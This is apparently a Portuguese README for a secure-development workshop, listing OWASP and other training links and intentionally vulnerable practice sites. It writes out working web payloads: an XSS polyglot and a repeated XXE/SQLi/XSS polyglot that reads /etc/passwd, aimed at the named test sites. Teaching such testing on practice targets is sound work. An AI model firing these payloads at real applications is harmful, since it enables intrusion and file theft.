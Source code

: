 # workshop-desenvolvimento-seguro

Ferramentas (após abrir o link, clique em Open in Colab):

https://github.com/brinhosa/workshop-desenvolvimento-seguro/blob/main/workshop_desenvolvimento_seguro.ipynb

Links:
https://github.com/brinhosa/workshop-desenvolvimento-seguro

https://vsaq-demo.withgoogle.com/vsaq.html?qpath=questionnaires/webapp.json

https://owasp.org/www-project-api-security/

https://owasp.org/www-project-docker-top-10/

https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/migrated_content

https://owasp.org/www-pdf-archive/OWASP_SCP_Quick_Reference_Guide_v2.pdf

https://owasp.org/www-pdf-archive/OWASP_SCP_v1.3_pt-BR.pdf

https://portswigger.net/web-security

https://docs.microsoft.com/pt-br/windows/security/threat-protection/msft-security-dev-lifecycle

https://www.microsoft.com/en-us/securityengineering/sdl/practices

https://nullsweep.com/integrating-security-with-agile-development/

https://snyk.io/learn/secure-sdlc/

https://owasp.org/www-project-web-security-testing-guide/

https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf

https://www.ibm.com/br-pt/security/data-breach

XSS poliglota
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

<?xml version="1.0" encoding="UTF-8" ?><!-- 'or 1=1--><!-- "><%=7*7%>{{2*2}} --><!DOCTYPE
test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId><![CDATA[<s><svg/onload=prompt(5);></s>]]></stockCheck>

XSS Armazenado 
http://testphp.vulnweb.com/guestbook.php
<?xml version="1.0" encoding="UTF-8" ?><!-- 'or 1=1--><!-- "><%=7*7%>{{2*2}} --><!DOCTYPE
test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId><![CDATA[<s><svg/onload=prompt(5);></s>]]></stockCheck>

SQLi
http://testfire.net/login.jsp
<?xml version="1.0" encoding="UTF-8" ?><!-- 'or 1=1--><!-- "><%=7*7%>{{2*2}} --><!DOCTYPE
test [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId><![CDATA[<s><svg/onload=prompt(5);></s>]]></stockCheck>
https://raw.githubusercontent.com/p4r4n0rm4l/dummy-SQL-injection-site/master/sql.php

Ambientes de Teste:
https://github.com/WebGoat/WebGoat

https://github.com/WebGoat/WebGoat/releases

http://testphp.vulnweb.com/

http://testfire.net/

https://github.com/digininja/DVWA
